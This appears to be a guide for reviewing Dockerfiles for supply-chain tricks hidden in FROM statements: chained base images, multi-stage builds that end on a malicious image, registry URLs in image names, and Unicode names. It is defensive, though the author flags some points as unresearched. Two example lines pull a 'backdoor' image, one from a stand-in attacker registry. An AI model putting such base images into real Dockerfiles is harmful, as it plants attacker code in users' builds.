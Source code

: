 ## `Dockerfile`
The truth is that almost every single statement that can be used on a `Dockerfile` can hide something sinister. The nature of docker images make it so that is quite hard to track and ensure that what is installed is clean of any malicious code.


### The `FROM` statement
Usually one of the top most statements of a `Dockerfile`.  It is used to instruct docker to use another image as a base. Any following commands within the `Dockerfile` will be executed as if they were run from within a container of the imported image.

In general it is always a good idea to look for the `FROM` statements and trace them back on docker hub to see if they use official images or not. Some of the  tricks that can be found in `FROM` statements follows.

#### `FROM` Chaining
Another trick that I've seen be used is what I call the _FROM chaining_. This is for images that depend on another, that in turn depend on other etc. etc. All the images seem clean but somewhere in the midst of all those images there's the one that adds the backdoored bash or whatever.


#### Multi-stage builds
A `Dockerfile` can have more than one `FROM` statements. Import from a legitimate image, perform some tasks to confuse user and import a malicious image last to be executed.

```Dockerfile
FROM debian
RUN apt-get install curl bash
...
FROM backdoor
```

Although the image started with `FROM debian` it will end up running whatever `FROM backdoor` image has.

#### Image with URL as part of name
_NOTE_: This needs further clarifications, particularly under what conditions docker will actualy fetch the image.

One of the things that `docker` will do for you is to parse as URL the image name. This means that the following statement is valid
```Dockerfile
FROM badregistry.attacker.io/repo/backdoor:latest
```

Upon building this image docker will connect to `badregistry.attacker.io` and attempt to fetch the image `repo/backdoor` and use this as a base for the container.



#### Unicode `FROM` image
This is mostly theoretical to be honest as docker fails to to use any image with non basic ascii characters. However, I have not researched this extensively, so using some unicode characters may still be possible.
